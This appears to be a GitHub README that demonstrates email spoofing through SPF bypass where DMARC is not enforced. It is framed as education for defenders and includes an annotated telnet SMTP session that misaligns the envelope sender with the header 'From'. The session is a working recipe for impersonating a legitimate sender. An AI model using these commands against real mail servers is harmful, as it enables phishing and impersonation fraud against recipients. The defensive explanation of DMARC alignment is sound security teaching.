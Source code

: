 # spf-bypass
See this blog for an overview of [email spoofing techniques](https://caniphish.com/phishing-resources/blog/sending-spoofed-emails) or this blog to understand the types of infrastructure necessary to [send realistic phishing emails](https://caniphish.com/phishing-resources/blog/sending-test-phishing-emails).

This project is meant to educate defenders and demonstrate the ease at which threat actors can abuse insecure domains for the delivery of spoofed email.
Utilising a security deficiency known as SPF-bypass, threat actors can deliver emails which provide no indication of malicious intent and can fool the most experienced Security professionals.

Please see https://dmarc.org/wiki/FAQ for a detailed overview of email authentication protocols (i.e. SPF, DKIM and DMARC).
Please see below for a detailed overview of how professionnal spammers bypass SPF where DMARC hasn't been setup in a hardened configuration.

Prerequisites to successfully deliver spoofed mail (utilising SPF-bypass techniques):
1. A domain you control (approx. cost $12-15 AUD/yr - see https://au.godaddy.com/)
2. A Server or VPN with a dedicated public IP that hasn't blocked outbound traffic over port 25 (approx. $80-150 AUD/yr)
3. Configure the DNS TXT Zone file for the purchased domain, to include the Server or VPN public IP in its public SPF record (see https://au.godaddy.com/help/add-an-spf-record-19218)

Upon completion of the above 3 steps, you'll be able to successfully demonstrate the delivery of spoofed mail utilising SPF-bypass techniques

To perform an SPF-bypass attack, simply run the below telnet commands that can be executed on any Windows or Linux endpoint. Replace <target.mailserver.com> with the target mail server you're delivering the spoofed email to (i.e. the recipient - lookup the MX record of the recipient domain to identify this), replace <attacker@attackerdomain.com> with the domain you procured and setup earlier, replace <Legitimate_Sender@spoofed.com> with the address and domain you're spoofing and replace <target@target.com.au> with your target recipient.


    telnet target.mailserver.com 25
    helo attackerdomain.com
    mail from: attacker@attackerdomain.com
    rcpt to: target@target.com.au
    data
    from: "Sender, Legitimate" <Legitimate_Sender@spoofed.com>
    to: target@target.com.au
    subject: Presentation - Email Demo
    This is a test

    .

What we're abusing here is a weakness in the way emails are delivered, authenticated and presented to a users screen. If we break down each component of the above mail delivery we can see how the SPF-bypass abuses a domain misalignment between the Mail Envelope 'SMTP.MailFrom' and Mail Header 'From':

    telnet target.mailserver.com 25 
    helo attackerdomain.com <--- If the SMTP.MailFrom is empty (row below), SPF authentication instead relies on the SMTP.helo
    mail from: attacker@attackerdomain.com <-- This is where SPF checks are typically performed. If we mis-align this to the Mail Header 'From' we can trick the recipient
    rcpt to: target@target.com.au
    data <--- Everything from here down is presented to the user in the traditional email format. Everything above is hidden from the user as the Mail Envelope
    from: "Sender, Legitimate" <Legitimate_Sender@spoofed.com> <--- This is where SPF-bypass occurs - DMARC protects against this by performing an alignment check betwen both 'From' values
    to: target@target.com.au
    subject: Presentation - Email Demo
    This is a test
    
    .
